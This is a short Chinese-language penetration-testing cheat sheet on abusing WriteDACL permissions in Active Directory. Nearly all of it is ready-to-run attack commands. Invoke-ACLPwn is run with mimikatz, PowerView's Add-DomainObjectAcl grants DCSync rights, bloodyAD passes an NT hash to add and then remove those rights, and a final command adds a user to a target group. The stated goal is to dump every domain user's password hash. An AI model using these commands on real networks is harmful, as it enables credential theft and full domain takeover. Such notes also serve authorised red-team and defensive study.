 	WriteDACL权限可以修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash
	Invoke-ACLPwn是一个自动发现和 pwnage Active Directory 中配置不安全的 ACL 的工具
	https://github.com/fox-it/Invoke-ACLPwn
	>./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
 #### 域上的 WriteDACL
	Windows 上
	将 DCSync 权限授予主体身份
	>Import-Module .\PowerView.ps1
	>$SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
	>$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)
	>Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
	Linux 上
	将 DCSync 权限授予主体身份
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B addDomainSync user2
	DCSync后移除权限
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B delDomainSync user2
 #### 组上的 WriteDACL
	>Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
	>net group "INTERESTING_GROUP" User1 /add /domain